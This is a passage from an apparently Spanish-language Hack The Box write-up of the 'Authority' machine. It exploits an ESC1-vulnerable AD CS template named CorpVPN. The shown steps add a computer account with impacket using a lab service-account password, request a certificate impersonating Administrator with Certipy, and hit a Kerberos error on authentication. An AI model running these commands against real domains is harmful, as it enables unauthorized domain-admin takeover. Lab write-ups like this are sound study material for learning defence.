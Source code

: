 ```bash
[*] Saved BloodHound data to '20230930234255_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20230930234255_Certipy.txt'
[*] Saved JSON output to '20230930234255_Certipy.json'
```

Una plantilla llamada **CorpVPN**, vulnerable a ESC1.

```txt
 [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

Para explotarlo añado un nuevo equipo al dominio con **addcomputer.py** de impacket:

```bash
❯ addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'ZIOX' -computer-pass 'Password123!'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Successfully added machine account ZIOX$ with password Password123!.
```

Y solicito un certificado con la plantilla vulnerable y el usuario al que queremos suplantar con el SAN (Administrator):

```bash
❯ certipy req -username ZIOX$ -password 'Password123!' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
Certipy v4.8.1 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'
```

Pero al intentar autenticarme con el certificado para obtener un TGT y obtener acceso como `Administrator` recibimos el siguiente error:

```bash
❯ certipy auth -pfx administrator_authority.pfx -dc-ip 10.10.11.222
Certipy v4.8.1 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.authority.htb'
> 1
[*] Using principal: authority$@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```
